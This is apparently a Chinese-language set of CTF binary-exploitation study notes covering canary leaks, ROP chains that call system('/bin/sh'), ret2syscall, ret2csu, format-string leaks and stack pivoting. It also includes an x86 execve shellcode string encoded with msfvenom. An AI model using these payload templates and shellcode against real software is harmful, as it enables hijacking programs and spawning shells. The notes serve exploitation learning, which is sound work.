

# PWN

+ 技巧总结 https://www.cnblogs.com/xshhc/p/16939678.htmlz
+ 二进制资料 https://abcdxyzk.github.io/blog/cats/assembly/
+ 参考 https://www.yuque.com/hxfqg9/bin
+ 

## 做题笔记

### Canary leak

Canary存在ebp之前 其大小取决于程序的bit 0x04 0x08

https://cloud.tencent.com/developer/article/1740319

1. Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
2. Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

### glibc 2.27

+ 得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)`
  弹出的数据是奇数个, 本地就会报错
  但是改成偶数个pop
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)`
  就能打通本地了

### ret2syscall

+ 参考 https://www.cnblogs.com/fuxuqiannian/p/16913836.html
+ 没有sys且开启了NX
+ 32：pop,a,b,c,d,ret execve调用号 0xb写在pop,a后 其余两个寄存器覆盖0 p32(0) 最后执行int80 addr
+ 64：传参的寄存器是rdi->rsi->rdx->rcx->r8->r9 execve调用号 0x3b 最后执行syscall addr
+ 

### UAF

+ use after free
+ 内存空间未被设置NULL的使用

### ret2csu

+ https://ctf-wiki.org/en/pwn/linux/user-mode/stackoverflow/x86/medium-rop/
+ 1.查找利用gadgets
  + 
+ 2.给寄存器赋值 按照64的参数顺序
+ 3.泄露write地址 使得程序重新运行main函数，根据libc基地址计算system函数和binsh字符串的真实地址，构造ROP链

### ret2shellcode

+ http://shell-storm.org/shellcode/files/shellcode-819.html
+ b64shellcode编码的buf执行
  + `python -c ``'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'` `| msfvenom -p - -e x86``/alpha_mixed` `-a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
  + BSides San Francisco CTF 2017-b_64_b_tuff

### fmt

+ 查找溢出位置相对于flag变量的位置 计算出偏移
+ %偏移%s 泄露偏移地址上的值作为string类型输出
+ 小大端序问题
+ ```python
  nums=["657b46544353534e","2d34653333386238","3165342d65313936","622d383534382d30",
  "6565306232346663","7d363731"]
  for strs in nums:
      i = len(strs)-2
      while i >= 0:
          num = strs[i:i+2]
          print(chr(int(num,16)),end="")
          i = i-2
  ```

### StackSmash

+ https://blog.csdn.net/m0_74020775/article/details/129858952
+ canary检查到不同时，报StackSmash错，输出$__libc_argv[0] 第一个环境变量 也就是程序本身目录，构造ROP链达到输出想要的内容

### 栈迁移

+ 对于只能溢出覆盖掉一个地址大小的栈。开启NX，no-pie，栈迁移到bss段
+ 计算出当前溢出后得到的ebp与pre main ebp计算，得到偏移，到达迁移后的栈。给足所需字符串字节大小。'/bin/sh\x00'=16bytes。call sys,ret
+ 栈迁移是一种技术，用于在利用漏洞时控制程序的执行流。它通常用于绕过保护机制，如栈溢出。
  栈迁移的核心在于使用两次 leave; ret 指令：
  第一次 leave 指令将 ESP 设置为 EBP 的值，即栈顶和栈底指向同一位置。
  然后执行 pop ebp，将栈顶的内容弹入 EBP，此时栈顶的内容也就是 EBP 的内容。
  第二次 leave 指令执行后，ESP 移动到了 EBP 的位置，再次执行 pop ebp，将栈顶的内容弹给 EBP。
  此时控制流跳转到返回地址，实现了栈迁移。

### off_by_null

+ 只溢出一个字节 通常是\x0 null byte

### nop_sled

+ 插入大量NOP指令，增加访问到自己的shellcode的领空概率
